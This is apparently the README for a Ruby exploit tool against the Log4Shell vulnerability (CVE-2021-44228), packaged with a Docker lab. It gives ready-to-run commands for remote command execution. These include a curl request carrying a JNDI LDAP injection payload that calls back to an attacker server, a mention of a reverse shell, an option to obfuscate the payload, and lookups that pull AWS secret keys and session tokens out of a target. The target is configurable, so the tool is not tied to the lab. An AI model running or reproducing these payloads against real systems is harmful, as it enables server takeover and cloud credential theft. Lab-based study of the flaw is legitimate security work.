 ## Log4j RCE Vulnerability (CVE-2021-44228)
This is for educational purposes only. This contains docker files to create the testing environment for this exploit

### Building and running the testing environment
Start the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app) and test server
```bash
docker-compose up
```
### Exploitation
Open a new terminal and get an access to the test server
```bash
docker exec -it log4j_attacker bash
```
#### Full Exploitation
```bash
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name'
```
##### Example:
![Full Exploitation](./attachments/full_rce.gif)

#### Serve the payload
Start the HTTP and LDAP Servers
```bash
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name' -s
```

Open a new terminal in the test server
```bash
docker exec -it log4j_attacker bash
# inside the test server
curl http://10.10.10.2:8080 -H 'X-Api-Version: ${jndi:ldap://10.10.10.3:1389/${sys:os.name}}'
```
##### Example:
Reverse shell
![Serve only](./attachments/serve.gif)

Getting information from callback(Note: `-c 'touch /dev/shm/vulnerable' is not needed`):
![Info](./attachments/info.gif)

### Options
```bash
# ./log4j.rb --help
Usage: ./log4j.rb -t [Target] -a [Attacker IP] -l [LDAP Port] -h [HTTP Port]

Options:
    -t, --target Target              Target Host to check. Default: http://127.0.0.1:8080
    -a, --attacker Attacker          IP of LDAP and HTTP servers. Default: 0.0.0.0
    -l, --ldap LDAP_PORT             LDAP Port to use. Default: 53
    -h, --http HTTP_PORT             HTTP Port to use. Default: 1010
    -c, --command Command            Command to execute. Default: "touch /dev/shm/log4j_vulnerable"
    -s, --serve_only                 [OPTIONAL] Starts HTTP and LDAP Server, then send JNDI payload manually
    -i, --info_extract Info_key      [OPTIONAL] Extracts information from the target using log4j keywords. Default is none.Possible inputs but not limited to below:
                                        ${hostName}
                                        ${sys:user.name}
                                        ${sys:user.home}
                                        ${sys:user.dir}
                                        ${sys:java.home}
                                        ${sys:java.vendor}
                                        ${sys:java.version}
                                        ${sys:java.vendor.url}
                                        ${sys:java.vm.version}
                                        ${sys:java.vm.vendor}
                                        ${sys:java.vm.name}
                                        ${sys:os.name}
                                        ${sys:os.arch}
                                        ${sys:os.version}
                                        ${env:JAVA_VERSION}
                                        ${env:AWS_SECRET_ACCESS_KEY}
                                        ${env:AWS_SESSION_TOKEN}
                                        ${env:AWS_SHARED_CREDENTIALS_FILE}
                                        ${env:AWS_WEB_IDENTITY_TOKEN_FILE}
                                        ${env:AWS_PROFILE}
                                        ${env:AWS_CONFIG_FILE}
                                        ${env:AWS_ACCESS_KEY_ID}
    -o, --obfuscate                  [OPTIONAL] Obfuscates the JNDI Payload
        --help                       Print options

```
### Testing outside the container
- Make sure to do `bundle install` first to install the dependency gems

### Credits
- [christophetd](https://github.com/christophetd) for the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app)
- [alexandre-lavoie's](https://github.com/alexandre-lavoie) [code](https://github.com/alexandre-lavoie/python-log4rce) for my reference while working on this project

### Notes
This is for educational purposes only. Please use responsibly if you want to test it.
